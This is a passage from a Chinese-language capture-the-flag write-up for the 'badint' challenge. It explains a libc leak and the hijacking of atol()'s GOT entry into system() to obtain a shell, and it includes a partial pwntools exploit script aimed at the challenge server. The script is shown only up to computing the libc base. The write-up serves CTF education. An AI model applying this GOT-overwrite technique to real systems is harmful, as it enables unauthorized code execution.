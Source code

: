 另外再分享一個小技巧，就是我們在蓋 `atol()` 的 GOT 時，會無可避免地蓋到 `fgets()` 的 GOT。此時在不知道 `fgets()` 的 function address 的情況下，我們可以將 `fgets()` 的 GOT 蓋成  `fgets()` 被 resolve 之前的 code address:
```
gdb-peda$ got
State of the GOT table

RELRO: Partial
...................
[9] fgets@GLIBC_2.2.5 -> 0x0000000000400b26 <-- a fixed address
```
這麼一來程式之後就會重新 bind 一次 `fgets()` 的 address，我們就可以繼續利用 `fgets()` 讀 input 了。

利用 format string leak 出各個 GOT entry 之後，順利的在 [libcdb.com](http://libcdb.com/) 找到了遠端 libc 的版本。之後我們就可以將 `atol()` hijack 成 `system()`，然後輸入 "sh" 字串，呼叫 `system("sh")` 拿 shell。

```python exp_bad.py
#!/usr/bin/env python

from pwn import *
import subprocess
import sys
import time

HOST = "badint_7312a689cf32f397727635e8be495322.quals.shallweplayaga.me"
PORT = 21813
ELF_PATH = "./badint"
#LIBC_PATH = "/lib/x86_64-linux-gnu/libc.so.6"
LIBC_PATH = "./libc-2.19_15.so"

context.binary = ELF_PATH
context.log_level = 'INFO' # ['CRITICAL', 'DEBUG', 'ERROR', 'INFO', 'NOTSET', 'WARN', 'WARNING']
context.terminal = ['tmux', 'splitw'] # for gdb.attach

elf = context.binary # context.binary is an ELF object
libc = ELF(LIBC_PATH)

def add_data(seq, off, data, lsf):
    r.sendlineafter("SEQ #:", str(seq))
    r.sendlineafter("Offset: ", str(off))
    r.sendlineafter("Data: ", data)
    r.sendlineafter("Yes/No: ", lsf)

def convert(num):
    ret = ""
    while num != 0:
        now = num & 0xff
        num >>= 8
        ret = ret + '{:02x}'.format(now)
    return ret.ljust(16, "0")

if __name__ == "__main__":
    
    r = remote(HOST, PORT)
    #r = process(ELF_PATH)
    
    add_data(1, 8, "1"*0x90*2, 'Yes')
    r.recvuntil("Assembled [seq: 1]: ")
    # leak libc address
    addr = 0
    for i in xrange(6):
        addr |= ((int(r.recv(2), 16)) << (i*8))
    
    log.success("addr: " +hex(addr))
    # libc.address = addr - 0x3c3b78 # local
    libc.address = addr - 0x3be7b8 # remote
```